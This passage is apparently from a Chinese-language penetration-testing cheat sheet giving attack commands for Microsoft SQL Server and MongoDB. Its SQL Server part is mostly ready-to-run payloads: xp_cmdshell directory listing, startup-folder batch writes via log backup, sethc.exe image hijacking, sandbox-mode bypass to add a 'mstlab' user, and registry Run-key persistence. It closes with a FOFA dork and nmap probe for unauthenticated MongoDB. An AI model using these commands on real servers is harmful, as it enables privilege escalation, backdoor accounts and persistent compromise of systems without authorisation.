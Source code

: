 2. 列目录:
    ```
    exec master..xp_cmdshell 'ver'
    (or) exec master..xp_dirtree 'c:\',1,1
    (or) drop table black
    create TABLE black(mulu varchar(7996) NULL,ID int NOT NULL IDENTITY(1,1))--
    insert into black exec master..xp_cmdshell 'dir c:\'
    select top 1 mulu from black where id=1
    xp_cmdshell 被删除时,可以用(5.a)开启沙盒模式,然后(5.b)方法提权
    ```

3. 备份启动项:
    ```
    alter database [master] set RECOVERY FULL
    create table cmd (a image)
    backup log [master] to disk = 'c:\cmd1' with init
    insert into cmd (a) values (0x(batcode))
    backup log [master] to disk = 'C:\Documents and Settings\Administrator\「开始」菜单\程序\启动\start.bat'
    drop table cmd
    ```

4. 映像劫持

    `xp_regwrite 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe','debugger','reg_sz','c:\windows\system32\cmd.exe'`

5. 沙盒模式提权:

    a : `exec master..xp_regwrite 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\Jet.0\Engines','SandBoxMode','REG_DWORD',0;` # 关闭沙盒模式

    b : `Select * From OpenRowSet('Microsoft.Jet.OLEDB.4.0',';Database=c:\windows\system32\ias\ias.mdb','select shell("net user mstlab mstlab /add")');` #or c:\windows\system32\ias\dnary.mdb string 类型用此.
    开启 OpenRowSet:`exec sp_configure 'show advanced options', 1;RECONFIGURE;exec sp_configure 'Ad Hoc Distributed Queries',1;RECONFIGURE;`

6. xp_regwrite 操作注册表

    `exec master..xp_regwrite 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\Windows\currentversion un','black','REG_SZ','net user test test /add'`

    开启 xp_oacreate : exec sp_configure 'show advanced options', 1;RECONFIGURE;exec sp_configure 'Ole Automation Procedures',1;RECONFIGURE;

---

## MongoDB

> fofa: app="MongoDB-数据库"

**未授权访问**
```
nmap -p 27017 --script mongodb-info x.x.x.x
```

---
